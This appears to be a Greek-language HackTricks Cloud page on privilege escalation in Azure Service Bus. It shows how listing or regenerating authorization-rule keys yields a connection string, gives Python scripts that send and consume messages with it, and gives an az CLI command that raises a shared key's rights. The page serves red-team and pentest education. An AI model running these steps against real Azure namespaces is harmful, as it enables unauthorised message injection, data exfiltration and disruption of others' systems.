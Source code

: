 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

Μπορείτε να ανακτήσετε το `PrimaryConnectionString`, το οποίο λειτουργεί ως διαπιστευτήριο για το Service Bus namespace. Με αυτή τη σύνδεση, μπορείτε να αυθεντικοποιηθείτε πλήρως ως το Service Bus namespace, επιτρέποντάς σας να στείλετε μηνύματα σε οποιαδήποτε ουρά ή θέμα και ενδεχομένως να αλληλεπιδράσετε με το σύστημα με τρόπους που θα μπορούσαν να διαταράξουν τις λειτουργίες, να προσποιηθούν έγκυρους χρήστες ή να εισάγουν κακόβουλα δεδομένα στη ροή μηνυμάτων.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
# Prepare a single message with updated content
single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
# Send the message to the topic
await publisher.send_messages(single_message)
print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
# Generate a collection of messages with updated content
message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
# Send the entire collection of messages to the topic
await publisher.send_messages(message_list)
print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
# Send a grouped batch of messages with updated content
async with publisher:
grouped_message_batch = await publisher.create_message_batch()
for i in range(10):
try:
# Append a message to the batch with updated content
grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
except ValueError:
# If batch reaches its size limit, handle by creating another batch
break
# Dispatch the batch of messages to the topic
await publisher.send_messages(grouped_message_batch)
print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
# Instantiate the Service Bus client with the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as sb_client:
# Create a topic sender for dispatching messages to the topic
publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
async with publisher:
# Send a single message
await send_individual_message(publisher)
# Send multiple messages
await send_multiple_messages(publisher)
# Send a batch of messages
await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### Λάβετε Μηνύματα. Ενέργεια: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` Ή `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
Μπορείτε να ανακτήσετε το PrimaryConnectionString, το οποίο χρησιμεύει ως διαπιστευτήριο για το Service Bus namespace. Χρησιμοποιώντας αυτό το connection string, μπορείτε να λάβετε μηνύματα από οποιαδήποτε ουρά ή συνδρομή εντός του namespace, επιτρέποντας την πρόσβαση σε δυνητικά ευαίσθητα ή κρίσιμα δεδομένα, διευκολύνοντας την εξαγωγή δεδομένων ή παρεμβαίνοντας στη διαδικασία επεξεργασίας μηνυμάτων και στις ροές εργασίας εφαρμογών.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
# Create a Service Bus client using the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as servicebus_client:

# Get the Subscription Receiver object for the specified topic and subscription
receiver = servicebus_client.get_subscription_receiver(
topic_name=TOPIC_NAME,
subscription_name=SUBSCRIPTION_NAME,
max_wait_time=5
)

async with receiver:
# Receive messages with a defined maximum wait time and count
received_msgs = await receiver.receive_messages(
max_wait_time=5,
max_message_count=20
)
for msg in received_msgs:
print("Received: " + str(msg))
# Complete the message to remove it from the subscription
await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```
### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`
Αν έχετε αυτές τις άδειες, μπορείτε να αναβαθμίσετε τα προνόμια σας διαβάζοντας ή δημιουργώντας κοινά κλειδιά πρόσβασης. Αυτά τα κλειδιά επιτρέπουν πλήρη έλεγχο πάνω στο Service Bus namespace, συμπεριλαμβανομένης της διαχείρισης ουρών, θεμάτων και αποστολής/λήψης μηνυμάτων, παρακάμπτοντας ενδεχομένως τους ελέγχους πρόσβασης βάσει ρόλων (RBAC).
```bash
az servicebus namespace authorization-rule update \
--resource-group <MyResourceGroup> \
--namespace-name <MyNamespace> \
--name RootManageSharedAccessKey \
--rights Manage Listen Send
```
## Αναφορές

* https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
</details>
{% endhint %}
